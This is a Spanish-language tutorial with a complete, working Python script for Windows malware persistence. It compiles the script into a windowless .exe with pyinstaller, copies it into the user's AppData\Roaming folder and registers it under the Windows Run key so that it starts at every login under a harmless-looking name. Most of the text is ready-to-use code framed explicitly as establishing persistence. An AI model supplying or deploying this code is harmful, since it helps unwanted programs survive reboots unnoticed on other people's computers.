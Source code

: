 1. Asegúrate de tener Python en tu sistema:

```bash
python --version
```

2. Opcionalmente, instala `pyinstaller` para convertir tu script en `.exe`:

```bash
pip install pyinstaller
```

3. Puedes compilar tu script así:

```bash
pyinstaller --noconsole --onefile tu_script.py
```

Esto generará un `.exe` que puedes usar para establecer la persistencia.

---

### 🐍 Código Python de persistencia usando el Registro de Windows

#### 🧠 ¿Qué hace este script?

- Copia el `.exe` a una carpeta oculta (`AppData\Roaming`).
- Crea una entrada en el **registro de inicio automático de Windows** para que se ejecute al iniciar sesión.

#### ✅ Script completo explicado

```python
import os
import shutil
import sys
import winreg

def agregar_persistencia(nombre_programa="MyApp"):
    # Ruta al ejecutable (el script se debe haber convertido a .exe)
    ubicacion_origen = sys.executable  # El .exe actual
    carpeta_destino = os.getenv("APPDATA")  # C:\Users\Usuario\AppData\Roaming
    ubicacion_destino = os.path.join(carpeta_destino, f"{nombre_programa}.exe")

    try:
        # Copia el .exe a AppData
        shutil.copyfile(ubicacion_origen, ubicacion_destino)
        print(f"[+] Copiado a {ubicacion_destino}")
    except Exception as e:
        print(f"[!] Error al copiar el archivo: {e}")
        return

    # Agrega al registro
    try:
        clave = winreg.OpenKey(
            winreg.HKEY_CURRENT_USER,
            r"Software\Microsoft\Windows\CurrentVersion\Run",
            0,
            winreg.KEY_SET_VALUE
        )
        winreg.SetValueEx(clave, nombre_programa, 0, winreg.REG_SZ, ubicacion_destino)
        winreg.CloseKey(clave)
        print(f"[+] Persistencia agregada en el registro con nombre '{nombre_programa}'")
    except Exception as e:
        print(f"[!] Error al escribir en el registro: {e}")

if __name__ == "__main__":
    agregar_persistencia("MyApp")
```